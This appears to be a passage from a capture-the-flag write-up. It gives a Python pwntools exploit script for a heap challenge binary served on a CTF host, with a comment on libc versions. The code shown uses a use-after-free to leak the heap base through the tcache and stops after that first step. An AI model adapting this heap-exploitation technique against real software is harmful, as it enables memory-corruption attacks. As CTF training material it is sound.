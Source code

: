 note: your libc-database might contain `libc6_2.27-3ubuntu1.3_amd64`; I removed it because the package for that libc version [appears to be deleted](archive.ubuntu.com/ubuntu/pool/main/g/glibc/libc6_2.27-3ubuntu1.3_amd64.deb).

It's also worth noting that this code should succeed both locally _and_ on remote. 

```python
from pwnscripts import *
from string import whitespace
from random import randint
context.binary = 'chall'
if args.LOCAL:
    context.libc = 'libc6_2.27-3ubuntu1.4_amd64'
    r = context.binary.process()
else: r = remote('mc.ax', 31707)

optc = 0
def flush(): # speed up i/o by deferring recvs until necessary
    global optc
    while optc:
        r.recvuntil('choice: \n')
        optc -= 1
def choose(opt: int):
    global optc
    r.sendline(str(opt)) # io speed: r.sendlineafter('choice: \n', str(opt))
    optc+=1

def sendidx(idx: int): r.sendline(str(idx)) # io speed: r.sendlineafter('idx: \n', str(idx))
def alloc(idx: int, name: bytes):
    assert all(c not in whitespace.encode() for c in name) # whitespace will cause cin to terminate. This necessarily means that some ASLR bytes can kill an exploit.
    assert len(name) < 0x1000
    choose(0)
    sendidx(idx)
    r.sendline(name) # io speed: r.sendlineafter('name: \n', name)
def fav(idx: int):
    choose(1)
    sendidx(idx)
def printName() -> bytes:
    choose(2)
    flush()
    r.recvuntil('name: ')
    return r.recvline(timeout=1)[:-1]
def Eat(): choose(3)

def checkWhich(idx: int) -> str:
    '''figure out if foods[idx] was a Bamboo or a Food.
    Destroys the current `favorite`.'''
    fav(idx)
    Eat()
    flush()
    res = r.recvline()
    if b'crunch' in res: return 'bamboo'
    if b'nom nom' in res: return 'food'
    raise RuntimeError('wrong food')

# step 1: leak heap using a UAF
alloc(0, b'a'*0x97) # larger allocation to allow for larger leak
alloc(1, b'a'*0x7)  # needed for PIE leak later
fav(0)
alloc(0, b'A'*0x27) # Freeing foods[0] causes favorite->name_ to point to the tcache @ heap+0x10 (since favorite->name_ == [favorite+0x8] == (malloc_chunk*)favorite->bk)
heapbase = unpack(printName()[72:80])&0xfffffffff000 # tcache[72:80] == tcache[size=0x30]. & to get base.
log.info('heap: '+hex(heapbase))
```